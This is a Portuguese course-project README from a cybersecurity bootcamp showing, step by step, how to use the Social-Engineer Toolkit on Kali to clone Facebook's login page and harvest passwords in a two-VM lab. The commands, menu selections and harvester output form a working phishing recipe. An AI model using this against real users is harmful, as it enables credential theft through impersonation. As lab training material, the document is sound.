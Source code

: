 <h1>
    <a href="https://www.dio.me/">
     <img align="center" width="40px" src="https://hermes.digitalinnovation.one/assets/diome/logo-minimized.png"></a>
    <span>Desafio de projeto</span>
    <img align="center" width="100px" src="https://hermes.dio.me/tracks/f7103da6-32cf-46a4-be1c-c97067534355.png">    
</h1>

Disponibilização do **README.md** com orientações de como criar um Phishing para capturar senhas de login do Facebook.<br> **Formação Cybersecurity Specialist** da <img width="70px" background-color="black" src="https://hermes.digitalinnovation.one/assets/diome/logo.svg"> [Digital Innovation One](https://www.dio.me/).

**Pré-Requisitos:**

- **VM Windows**
- **VM Kali Linux**
- **Setoolkit:** Ferramenta para criar uma página falsa do Facebook para captura de senhas

## Configurando o Phishing no Kali Linux

1. Acessando com root: 
``` 
$ sudo su - root
```

2. Iniciando  a ferramenta **Setoolkit**: 
```
# setoolkit
```

3. Selecionando o tipo de ataque, neste caso a **opção 1**: 
```
...
            Visit: https://www.trustedsec.com
    It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools:

Select from the menu:

    1) Social-Engineering Attacks 
    2) Penetration Testing (Fast-Track)
    3) Third Party Modules
    4) Update the Social-Engineer Toolkit
    5) Update SET configuration
    6) Help, Credits, and About

    99) Exit the Social-Engineer Toolkit

set> 1
```

4. Selecionando o vetor de ataque no próximo menu, neste caso a **opção 2**: 
``` 
Select from the menu:

    1) Spear-Phishing Attack Vectors
    2) Website Attack Vectors
    3) Infectious Media Generator
    4) Create a Payload and Listener
    5) Mass Mailer Attack
    6) Arduino-Based Attack Vectors
    7) Wireless Access point Attack Vectors
    8) QRCode Generator  Attack Vectors
    9) Powershell  Attack Vectors
    10) Third Party Modules

    99) Return back to the main menu.

set> 2
```

5. Selecionando o método de ataque no próximo menu, neste caso a **opção 3**: 
```
...

    1) Java Applet Attack Method
    2) Metasploit Browser Exploit Method 
    3) Credential Harvester Attack Method
    4) Tabnabbing Attack Method
    5) Web Jacking Attack Method
    6) Muiti-Attack Web Method
    7) HTA Attack Method

    99) Return to Main menu

set:webattack> 3
```

6. Selecionando o método de ataque no próximo menu, neste caso a **opção 2**, em seguida o IP do servidor <enter>. Depois, informe a URL a ser clonada **www.facebook.com** : 
```
...
    1) Web Templates
    2) Site Cloner
    3) Custom Import

    99) Return to Webattack menu

set:webattack> 2
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as plac them into a report
...

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.10.18]: <enter>
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone:http://www.facebook.com

[*] Cloning the website: https://login.facebook.com/login.php
[*] This could take a litle bit..

The best way to use this attack is if username and password from fields are available. 
Regardless, this captures all POST on a website

[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives bellow:
192.168.10.18 - - [08/10/2023 01:21:54] "GET / HTTP/1.1" 200 -
...
```

7. Pela **VM Windows** acesse o IP configurado, neste caso **192.168.10.18**

## Resutados:

![Alt text](./passwd.png "Captura de tela do setoolkit")

![Alt text](./passwd1.png "Captura de tela do setoolkit")


## Referências:

[Capturando senhas com Social Engineering Toolkit e Ettercap](https://www.nanoshots.com.br/2015/09/capturando-senhas-com-social.html)

[Git Cassiano](https://github.com/cassiano-dio/cibersecurity-desafio-phishing)

[Git Trustedsec](https://github.com/trustedsec/ptf )